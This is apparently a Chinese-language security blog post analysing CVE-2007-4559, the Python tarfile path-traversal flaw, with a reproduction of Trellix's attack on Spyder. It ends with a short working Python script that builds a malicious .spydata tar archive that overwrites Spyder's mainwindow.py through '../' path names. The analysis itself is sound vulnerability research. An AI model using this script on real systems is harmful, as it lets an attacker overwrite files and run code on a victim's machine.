 ```yaml
---
title: CVE-2007-4559原理及复现
date: 2022-09-27 00:58:37
author: repoog
summary: 最近有安全研究人员爆出2007年的CVE-2007-4559漏洞没有被修复，这个漏洞影响到了Python的tarfile模块，可以造成系统文件的任意读取和写入。本文从原理和利用角度介绍和分析该漏洞。
comments: true
tags:
  - CVE-2007-4559
  - Python
  - tarfile
  - 漏洞分析
categories:
  - 软件安全
---
```


2022年9月21日，Trellix（McAfee Enterprise和FireEye合并之后的新公司）的安全研究人员发现早在2007年就披露的漏洞CVE-2007-4559依然没有被修复（https://mail.python.org/pipermail/python-dev/2007-August/074290.html ），该漏洞影响到Python的tarfile模块，可造成系统文件的任意读取和写入。当时的漏洞被披露后，官方采取的做法是在编译过程中给出警告提示，说明可能存在从未信任的来源中解压文档，之后便关闭了漏洞。

![cve-2007-4559](images/2022/09/cve-2007-4559-warning.jpg 'cve-2007-4559')

经过Trellix研究人员对于GitHub上所有引用tarfile模块的项目分析，在588840个项目中都有“import tarfile”的调用声明，其中61%存在CVE-2007-4559漏洞，即受影响的项目有将近36万个项目。

CVE-2007-4559的基本原理与CVE-2001-1267类似，当使用tar打包一个包含“../../../../../etc/passwd”，并用管理员权限解包时，/etc/passwd文件会被覆盖，同理使用文件链接也可以产生同样的效果。

CVE-2007-4559的漏洞源自tarfile模块TarInfo类的extract方法（https://github.com/python/cpython/blob/3.10/Lib/tarfile.py#L2100 ）：

``` Python
……
        try:
            self._extract_member(tarinfo, os.path.join(path, tarinfo.name),
                                 set_attrs=set_attrs,
                                 numeric_owner=numeric_owner)
……
```

TarInfo类是tar文件包中用于记录文件信息的类，上述代码中的tarinfo.name即是文件名称，\_extract\_member方法根据传入的文件路径、名称、属性、权限将文件写入系统。另外，extractall方法也调用了extract方法，因此也受到影响。

Trellix研究人员用受影响的软件Spyder呈现了该漏洞的影响，笔者复现了该漏洞：

![漏洞复现](images/2022/09/CVE-2007-4559.png '漏洞复现')

Spyder右侧操作框的Variable Explorer有一个Import Data功能，可以导入.spydata文件，该文件实际上是tar文件，使用恶意构造的tar包导入虽然可以成功但会报导入错误。因此，需要手动添加一条记录并导出.pickle文件，将该文件和恶意名称的文件名打包为.spydata文件导入。

最终的tar包生成脚本如下：

``` Python
import tarfile

def change_name(tarinfo):
    tarinfo.name = "../../Programs/Spyder/pkgs/spyder/app/" + tarinfo.name
    return tarinfo

with tarfile.open("exploit.spydata", "w:xz") as tar:
    tar.add("mainwindow.py", filter=change_name)
    tar.add("sample.pickle")
```